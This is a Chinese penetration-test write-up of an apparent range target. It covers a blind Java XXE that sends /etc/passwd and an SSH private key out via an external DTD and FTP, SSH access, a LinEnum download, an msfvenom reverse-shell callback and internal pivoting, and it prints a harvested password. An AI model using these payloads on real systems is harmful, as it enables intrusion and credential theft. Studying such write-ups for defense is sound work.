




目标IP：180.101.148.103
前期信息收集:
端口开放情况：
8022
8088
8088对应一个web页面，Apache Tomcat/8.0.38
dirsearsh扫目录发现/admin/目录，一个新建账户功能点，填入信息之后抓包，发现是一个jsp页面，为java环境，且POST数据包的格式为XML，立马想到XXE
然而借助已有的元素进行触发实体名以完成XXE，然而发现在已有元素中不能出现 & 。否则返回”内部错误”
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<reg><name>&xxe</name><tel>1</tel><email>1</email></reg>然后想到 % 触发的形式，也还是会报错,仍然不能成功执行
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [ <!ENTITY % evil SYSTEM “http://vps_ip/”> %evil; ]>
<reg><name>1</name><tel>1</tel><email>1</email></reg>既然是对现有元素的内容进行判断，那么假如我不适应预定义的元素呢？？？
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE acunetix [
<!ENTITY acunetixent SYSTEM "http://vps_ip/">
]>
<xxx>&acunetixent;</xxx>监听vps 80端口，成功接收到访问，说明XXE确实存在，但是发现为非回显XXE，尝试OOB，这里踩了很大的一个坑，由于之前只接触过PHP的XXE，对JAVA类型的XXE一无所知，导致在这里卡了好久。因为之前PHP中的XXE都是HTTP协议直接读取文件，OOB一直失败，访问了vps上的dtd，但是却没有任何信息返回。然后想到了是不是语言的问题，搜索一下”JAVA blind XXE”，找到了这篇文章： https://blog.csdn.net/qq_27446553/article/details/51212957，也就是需要用ftp来传输数据
最终构造paylaod如下：
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://vps_ip/evil.dtd">
%remote;]>
<root/>evil.dtd:(本地借助脚本在33端口起一个ftp服务)
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY % send SYSTEM 'ftp://vps_ip:33/%file;'>">
%int;
%send;先读取/etc/passwd ；比较正常 的 /etc/passwd文件，发现会以CWD为标志，每段后面的 / 被吃掉 ，处理之后：

当前只两个个登录用户root、biubiubiu，已知8022端口为SSH服务，则可以尝试读取id_rsa。root下没有.ssh返回,查看root下的.bash_history：
.bash_history
curl api.ipify.org < exit <
curl http: < EPSV ALL < EPSV < EPRT |1|172.19.0.2|33967| < RETR 172.2 <
ls -la < ifconfig < arp -a <
flag{05150500-2-bf28fdcb02874f4e}尝试读取home/biubiubiu/.ssh/id_rsa,成功读取之后对返回信息进行处理。即以CWD为标志，每段后面添加一个 / ，去除掉不必要的符号。这里有个小技巧，因为一行的字符数是不确定的（之前做过比较，可能系统差异吧），所以难以分行，这里直接把id_rsa处理成3行（开始和结束一行，所有中间字符一行），然后使用mobaxterm进行连接（mobaxtrem会自动分行）。
ssh -i ~/id_rsa biubiubiu@180.101.148.103 -p 8022
16eb94bce0b6:~$ cat /proc/1/cgroup
10:perf_event:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
9:memory:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
8:freezer:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
7:devices:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
6:net_cls,net_prio:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
5:cpu,cpuacct:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
4:blkio:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
3:cpuset:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
2:pids:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9
1:name=systemd:/docker/16eb94bce0b62f635dac745b6b6b07c6057404bf074d16e3449cfe1e23788af9当前在一个docker中，
然后又发现当前在一个busybox中（su: must be suid to work properly）
16eb94bce0b6:~$ chmod
BusyBox v1.24.2 (2016-08-12 14:38:34 GMT) multi-call binary.
且发现当前处在一个Docker Alpine container中
ashell 逃逸：
export SHELL=/bin/sh
16eb94bce0b6:$ sudo$sh
-ash: sudo: not found
###实际没有完成逃逸
16eb94bce0b6:
###成功切换为sh
尝试路径修复
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin结果还是不能使用sudo、su等命令，也就是Docker Alpine container起环境的时候并没有额外添加这些命令。因为Docker Alpine container默认只有可怜的300多个命令
简单的信息收集走一波：curl和wget可用，直接下载LinEnum.sh脚本
curl -O https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
16eb94bce0b6:~$ sh LinEnum.sh由于好多命令不可用，所以收集到的内容也有限，arp -a发现很多不完整的连接，也没有跨网段通信
常规提权：suid 、sudo 、Linux-suggest、计划任务、可写路径等都没有，才疏学浅，也没有发现更多提权思路
这里提权暂时没有其他思路，不过发现比较幸运的是能够使用SSH命令，首先想到的是ssh+proxychains（但是没有密码，也不能新建用户，有点尴尬）、iptables也没有
###由于这里的ash只能逃逸到sh，而不能逃逸到bash 。 但是用到的端口转发脚本都是bash格式的，所以又得找sh格式的，所以想想还是传一个msf马然后用msf转发操作吧
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=66.98.119.8 LPORT=4444 -f elf > tw返回的shell很快就被kill掉，进程迁移也失效，

set AutoRunScript migrate -f ###提前设置自动进程迁移
run autoroute -s 172.19.0.0/24 ###添加路由
run autoroute -p ###查看路由添加情况发现比之前稍稍稳定一点，刚添加完路由，，又掉了。。。。。。但是进程中确实没有杀毒软件啊,尝试更换为x86的paylaod，还是一样不稳定，但是重连几次之后发现稳定下来了.但是那种大范围扫描会导致断开，所以选择exploit -j，即使断开也能立马回连一个session。而且最重要的是添加的路由还在，不用反复添加。
nmap之后简单处理一下，获取存活主机列表：
cat ip | awk -F "(" '{print $2}' | awk -F ")" '{print $1}' | awk -F "latency" '{print $1}' | grep 172结果还没稳定几分钟，又掉了。。。。。。。又开始不稳定，渗透真是一门玄学。。。。
又是一顿折腾，还是不得行，实在没啥法子了，先放下，然后想一下各种各种，慢慢排除之后，想到是不是因为vps用国外的原因，然后实在不情愿地用起了白嫖来的阿里云ECS（白嫖来只做了一个子域名监控，其他什么环境都没安装，而且阿里云对某些端口的使用也是个迷，就比如4444端口，即使你在安全组里开了它，msf用这个端口监听并不会正常连接。。。）
ms17_010 发现基本没有开启445端口的机子，0708 也没得。
yCCN92mswZah6y7uyfvVdES 把这个密码添加到字典中进行ssh、ftp、rdp等爆破
只能扫描一下内网的常见端口了
nmap -p 21,22,23,25,80,445,1433,3306,3389，6379 -Pn 172.19.0.1/24 -T4但是全部扫描结果均为下例：

然后多方验证，发现nmap扫描结果并不准确，存活主机扫描结果也是一样不准确，，，
还是用自带的服务扫描模块试试看吧，
use auxiliary/scanner/discovery/arp_sweep ##探测存活主机
172.18.9.37
use auxiliary/scanner/portscan/tcp ###探测TCP端口服务
[+] 172.19.0.2: - 172.19.0.2:22 - TCP OPEN
[+] 172.19.0.1: - 172.19.0.1:22 - TCP OPEN
[+] 172.19.0.3: - 172.19.0.3:3306 - TCP OPEN
[+] 172.19.0.2: - 172.19.0.2:8009 - TCP OPEN
[+] 172.19.0.1: - 172.19.0.1:8022 - TCP OPEN
[+] 172.19.0.2: - 172.19.0.2:8080 - TCP OPEN
[+] 172.19.0.1: - 172.19.0.1:8088 - TCP OPEN
[+] 172.19.0.3: - 172.19.0.3:8989 - TCP OPEN最后还是回到通过msf添加一个sockets代理，配合proxychains进行操作(同样需要添加路由)
use auxiliary/server/socks5
然后就是172.19.0.1同时也开放了8022端口，nc探测也为openssh服务，尝试使用相同私钥进行登录，没想到成功了，但是貌似还是回到那个docker中。。。。。
172.18.9.37：
21/tcp open ftp
22/tcp open ssh
5432/tcp open postgresql
9999/tcp open abyss
9999/tcp open msdtc Microsoft Distributed Transaction Coordinatorssh、postgresql弱口令也还是没有
总结：
知识面还是不够广吧，一个Java blind xxe搞了半天才搞定，然后就是读取到的id_rsa处理起来也真的麻烦，一个不注意就导致格式错误。拿到主机普通用户权限，没有办法进行进一步提权，只能通过端口转发进行内网渗透。但是相对来说内网实战经验还是少，不说别的，用msf时阿里云ECS端口问题都要弄老半天，进入内网，只能尝试简单的横向，内网存活机子不多，445端口没有也没有开启，之前拿到的那个密码貌似也没有起到作用，其实一直在期待这个密码能够有一个不错的效果。开放的服务就更少了。ssh、mysql爆破均无果